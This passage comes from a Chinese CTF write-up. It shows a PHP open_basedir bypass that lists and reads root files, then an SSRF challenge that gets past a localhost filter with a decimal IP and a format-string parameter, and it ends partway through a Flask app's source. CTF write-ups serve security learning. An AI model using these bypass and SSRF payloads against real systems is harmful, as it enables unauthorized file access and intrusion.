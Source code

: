 ```
<?php
mkdir('1');
chdir('1');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
var_dump(scandir('/'));
?>
```

发现`flag.txt`

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import17.png)

然后将`var_dump(scandir(‘/’)`换成`get_file_contents(‘/flag.txt’)`就可以获取flag了

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import18.png)

### 0x03 rcmd

先进行代码审计

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import19.png)

大致流程为输入一个url然后该网站与url产生连接，传输数据后关闭连接

想让它向本机传输数据，但是url过滤`127.0.0.1`和`localhost`，所以采用进制绕过

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import20.png)

由于连接之后只会发送the content is 和一个整形，我们用`%1$s`覆盖`start`的值让页面输出字符型内容

扫描端口发现开放端口并在5000端口检测到回显有一段文字提示

最终payload:

```
http://api.yoshino-s.online:11455/?url=http://2130706433:5000&start=%1$s
```

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import21.png)

进入`/query?=path/fl4g/flag`下查找

![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/import22.png)

发现文件过滤

进入根目录下查找，发现`/app`目录下有三个文件`main.py`，`file.py`和`readfile.py`

main.py:

```
from flask import Flask, request
from file import File
from readfile import FileReader

app = Flask(__name__)

@app.route('/query')
def query():
    path = request.args.get('path')
    if not path:
        return '请输入路径'
    file = FileReader(File(path))
    return str(file)

@app.route('/')
def index():
```